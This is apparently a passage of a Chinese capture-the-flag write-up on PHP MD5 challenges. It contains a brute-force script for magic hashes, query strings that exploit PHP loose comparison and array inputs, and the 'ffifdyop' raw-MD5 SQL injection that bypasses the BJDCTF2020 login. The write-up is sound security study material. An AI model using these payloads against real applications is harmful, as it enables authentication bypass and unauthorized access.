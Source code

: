 ```php
        }
    }
?>
```

```python
import hashlib
import re

for i in range(1000000000):
    a = hashlib.md5(str(i).encode("utf-8")).hexdigest()
    if re.match('^ce\d+$', a) is not None:
        print(i, a)
```

`586180707 ce180897218118078483942647122685`

`param1[]=1&param2[]=2&str1=586180707&str2=240610708`

---

```php
<?php
error_reporting(0);
highlight_file(__file__);
function random() { 
    $a = rand(133,600)*78;
    $b = rand(18,195);
    return $a+$b;
}
$r = random();
if((string)$_GET['a']==(string)md5($_GET['b'])){
    if($_GET['a'].$r == md5($_GET['b'])) {
        print "Yes,you are right";
    }
else {
        print "you are wrong";
    }
}
?>
```

`a=0e1&b=240610708`

---

> [BJDCTF2020]Easy MD5

在响应头中存在`Hint: select * from 'admin' where password=md5($pass,true)`

如果可以构造出一个md5,使得结果中包含`'or'`的字符串即可达成目的

md5`129581926211651571912466741651878684928`得到`\x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8`

md5`ffifdyop`得到`'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c`

传入`ffifdyop`即可进入下一关
